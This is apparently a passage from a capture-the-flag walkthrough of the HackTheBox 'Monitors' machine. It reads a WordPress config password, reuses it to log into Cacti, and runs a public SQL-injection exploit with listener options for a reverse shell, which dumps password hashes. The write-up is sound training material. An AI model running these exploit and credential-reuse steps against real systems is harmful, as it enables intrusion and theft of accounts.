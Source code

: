 At this point, we can add `cacti-admin.monitors.htb` to our `/etc/hosts` file, and we can also take a peek at `/var/www/wordpress/wp-config.php`

```php
[...snip...]
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
[...snip...]
```

### cacti-admin.monitors.htb

![monitors3](/images/monitors3.png)

```sh
┌──(pl4stic㉿kali)-[~/htb/monitors]
└─$ searchsploit cacti 1.2.12
--------------------------------------------- ---------------------------------
 Exploit Title                               |  Path
--------------------------------------------- ---------------------------------
Cacti 1.2.12 - 'filter' SQL Injection        | php/webapps/49810.py
--------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Looks like this exploit won't work unless we have a valid Caci login. Let's try `admin:BestAdministrator@2020!`, our found password from the `wp-config.php`

![monitors4](/images/monitors4.png)

Excellent! Now let's try our exploit script.

```sh
┌──(pl4stic㉿kali)-[~/htb/monitors]
└─$ python 49810.py -t http://cacti-admin.monitors.htb -u admin -p 'BestAdministrator@2020!' --lhost 10.10.14.199 --lport 4444
[+] Connecting to the server...
[+] Retrieving CSRF token...
[+] Got CSRF token: sid:9ad0df6e9c26d22cbf74f54a62d1ec61ee2bd691,1741750073
[+] Trying to log in...
[+] Successfully logged in!

[+] SQL Injection:
"name","hex"
"",""
"admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
"guest","43e9a4ab75570f5b"

[+] Check your nc listener!
```
